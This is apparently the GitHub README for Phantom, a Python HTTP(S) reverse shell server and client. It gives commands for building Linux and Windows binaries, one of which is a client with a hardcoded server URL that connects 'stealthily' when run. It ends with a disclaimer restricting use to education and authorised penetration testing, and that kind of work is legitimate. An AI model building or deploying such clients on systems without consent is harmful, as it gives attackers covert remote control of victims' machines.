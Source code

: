 # Phantom - A multi-platform HTTP(S) Reverse Shell Server and Client

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Phantom?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Phantom)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Phantom is a **multi-platform HTTP(S) Reverse Shell** server and client in Python 3. Binaries for
Linux and Windows platforms can be built through an embedded script that executes 
PyInstaller.

Reverse shells can be established through HTTP or HTTPS. The certificates used for 
HTTPS can be auto-generated by Phantom or supplied by the user.

Phantom includes a helper shell script that enables fast generation of
self-signed certificates for use of both servers and clients. After generation, the
server and certificate authority certificates required for encrypted connections 
are bundled in the binaries for portability and ease of execution.

## Demo
![demo](https://github.com/EONRaider/static/blob/70ea04684f47e1314a95152a290d1e1d137784cd/phantom/usage.gif)

## Try it out!
Simply head over to the [dist directory](https://github.com/EONRaider/BCA-Phantom/tree/master/dist) 
and download the pre-built Linux/Unix or Windows binaries.

The HTTP client files are set to connect to http://localhost:8080, whereas the HTTPS client bundles a CA certificate file for https://localhost:4443 and will
only connect to this socket. With that in mind, choose either HTTP or HTTPS and run the server on one shell:
```shell
./linux_server http://localhost:8080
            <-- or -->
./linux_server https://localhost:4443
```
And the client on another one...
```shell
./http_linux_client
     <-- or -->
./https_linux_client
```
The same procedure works for the Windows binaries.

## Setup
### HTTP Server and Client
*You don't need to set up the server and client for HTTP connections.* The server will 
work straight out-of-the-box and the client will connect to any HTTP server. Just [download 
the HTTP binaries from dist](https://github.com/EONRaider/BCA-Phantom/tree/master/dist) 
and you're done. Execute the binaries with the `--help` option for instructions.

### HTTPS Server and Client
Encrypted communication through HTTPS requires at least two certificates: One for 
the server, named `server.pem` by default, and another for the certificate authority, or `ca.pem`. 
Phantom bundles both files in binaries for fast deployment. They can be 
generated by [multiple methods](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs) 
or by a simple execution of the [generate_certs.sh](https://github.com/EONRaider/BCA-Phantom/blob/master/src/generate_certs.sh) helper script.

Once the certificates are ready you only need to follow the steps from the Build and Run
section below.

## Build and Run an HTTPS Server/Client
### I. Install Dependencies
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended)
and [Virtualenv](https://virtualenv.pypa.io/en/latest/). You need to install all 
dependencies before building binaries.
```shell
git clone https://github.com/EONRaider/BCA-Phantom.git
cd BCA-Phantom
poetry install <--or--> pip install -r requirements.txt
```

### II. Build HTTPS Server and Client binaries
The `build.py` file centralizes the process and takes care of it all. Notice that 
a built Client binary contains a *hardcoded server URL*. **The connection to the server can 
be stealthily performed by simply executing the binary.**
- Build and run the **Server**
    ```shell
    python build.py server --server-cert /path/to/server.pem
    ./linux_server SERVER_URL
    ```
- Build and run the **Client**
  ```shell
  python build.py client --url SERVER_URL --ca-cert /path/to/ca.pem
  ./https_linux_client
  ```
The same procedure works for the Windows binaries.

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
